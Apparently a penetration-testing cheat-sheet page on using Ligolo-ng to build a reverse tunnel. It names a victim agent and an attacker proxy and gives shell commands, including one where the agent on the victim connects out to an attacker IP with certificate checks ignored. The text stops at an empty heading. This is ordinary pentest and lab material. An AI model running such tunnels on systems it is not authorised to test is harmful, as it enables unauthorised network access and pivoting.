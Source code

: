 # Other tools

https://lottunnels.github.io

## Ligolo-ng
https://www.flu-project.com/2023/10/ligolo-ng.html

Ligolo-ng is a lightweight and fast tool that allows pentesters to establish reverse TCP/TLS tunnels using a virtual "tun" interface, eliminating the need for SOCKS. This enables the use of tools like Nmap without proxychains, enhancing connection performance and stability.

### Preparation

- **Agent**: Victim machine
- **Proxy**: Attacker machine

Download the necessary binaries from the [official Ligolo-ng repository](https://github.com/nicocha30/ligolo-ng). You can choose between the source code or precompiled binaries.

### Configuration of Ligolo-ng

1. **Virtual Interface**: Set up the "tun" interface to establish the tunnel.

```shell
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

2. **Proxy Options**:
   - **`-autocert`**: Automatically requests a certificate using Let's Encrypt.
   - **`-certfile / -keyfile`**: Use your own certificates.
   - **`-selfcert`**: Generates a self-signed certificate.
   - **`-tun <interface name>`**: Specify a different interface name.
   - **`-laddr <IP:port>`**: Change the default listening interface.

### Execution

- **Attacker Machine**: Start the proxy with default settings.

```shell
./proxy -selfcert
```

- **Victim Machine**: Run the agent to create the session.

```shell
./agent -connect 10.10.14.3:11601 -ignore-cert
```

- Then choose session on proxy
- 
```ligolo
ligolo-ng » session
```
### Useful Commands
